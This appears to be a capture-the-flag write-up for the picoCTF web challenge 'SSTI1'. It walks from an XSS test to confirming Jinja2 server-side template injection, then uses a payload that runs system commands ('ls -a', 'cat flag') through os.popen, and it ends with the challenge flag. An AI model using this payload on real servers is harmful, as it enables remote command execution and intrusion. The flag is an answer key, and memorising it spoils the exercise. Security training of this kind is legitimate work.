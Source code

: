 # <u>SSTI1</u>
> *I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps! Check out my website here!*

![PicoCTF Description Page](/2025/(Web)%20SSTI1/screenshots/starting_page.png)

## About the Challenge
This is a web exploitation CTF found at `https://play.picoctf.org/practice/challenge/492`. After running the instance, we were allowed to access a webpage at `http://rescued-float.picoctf.net:51476/`.

Upon navigating to the website, we are greeted with this page.
![Landing Page](/2025/(Web)%20SSTI1/screenshots/landing_page.png)

## How to Solve?
Time to test the website out!

First, I tested what happens when user input is provided.
![Test Input](/2025/(Web)%20SSTI1/screenshots/test_input.png)
We can see from here that not much happens, the text is just outputted to the webpage.

However, looking at the source code, we can see that the form is making an HTTP POST request to a server with the text that is inputted.

Lets just cut to the chase, this is most likely going to be a XSS vulnerable website, so lets test it out!

### Testing XSS Vulnerability
Lets try a simple HTML script, `<script>alert('Vulnerable!')</script>`, to test vulnerability.
![Testing XSS Vulnerability](/2025/(Web)%20SSTI1/screenshots/test_xss.png).
Yes! We found the vulnerability!

***Important note**: At this point I realized that SSTI stands for Server-Side Template Injection. SSTI is a web vulnerability that occurs when an attacker is able to directly pass input into a template engine. A quick Google search reveals that the most common template engine is Jinja 2.*

### Testing Jinja2 SSTI Vulnerability
Lets test for Jinja2 SSTI vulnerability with the following payload: `{{ 2*2 }}`
![SSTI Test](/2025/(Web)%20SSTI1/screenshots/ssti_test.png)
The expression was evaulated meaning yes! The site is vulnerable to Jinja2 SSTI.

Now as of the time of writing about this, I know nothing about Jinja2 SSTI exploitation or creating payloads for this scenario, so time for some research.

After some research on Jinja2 SSTI exploitation, I found a template to execute system commands:
`{{request.application.__globals__.__builtins__.__import__('os').popen('[insert command here]').read()}}`

Lets first use this to try and view all files and directories on the system by running:
`{{request.application.__globals__.__builtins__.__import__('os').popen('ls -a').read()}} `
![Injection Test](/2025/(Web)%20SSTI1/screenshots/injection.png)

Looks like we found the flag, so lets just execute another system command to output the contents of `flag`:
`{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}} `

The request goes through and the webpage displays the contents of the flag as expected.
![Flag Found](/2025/(Web)%20SSTI1/screenshots/flag_found.png)

### Flag Found!
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bdc95c1a}
```